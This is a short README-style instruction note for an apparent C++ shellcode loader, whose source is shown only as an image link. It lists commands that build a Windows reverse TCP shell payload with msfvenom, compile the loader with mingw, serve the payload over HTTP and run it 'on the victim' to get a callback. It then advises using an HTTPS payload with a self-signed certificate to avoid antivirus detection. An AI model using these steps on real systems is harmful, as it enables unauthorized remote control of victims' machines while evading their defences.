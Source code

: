 To make this work,create a msfvenom payload
>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.175 LPORT=8000 -f raw >beacon.bin
>Compile .cpp using the command:- x86_64-w64-mingw32-g++ --static -o pay.exe simple.cpp -fpermissive -lws2_32
>Host the payload file using a http server :- python3 -m http.server

>Run the binary on the victim to get a call back.
>The payload will get detected after a while,make sure to use https encrypted payload.
>create your own ssl self signed certificate to use it for the https reverse payload ,since the one used by metasploit is signatured.
